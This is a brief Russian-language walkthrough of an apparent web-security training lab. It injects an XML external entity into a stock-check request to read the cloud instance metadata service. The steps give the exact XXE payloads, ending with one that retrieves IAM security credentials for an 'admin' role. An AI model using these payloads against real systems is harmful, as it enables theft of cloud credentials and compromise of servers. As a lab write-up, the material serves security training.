 1) Перехватываем запрос от нажатия на кнопку check stock
2) Отправляем запрос в repeater. Отменяем перехват
3) После начала xml добавляем <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
4) В ProductId добавляем &xxe
5) Запуск кода
6) Изменяем адрес. <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/"> ]>
7) Запуск кода
8) Изменяем по инструкциям адрес еще несколько раз
9) Финальный адрес: <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
10) Лаба выполнена
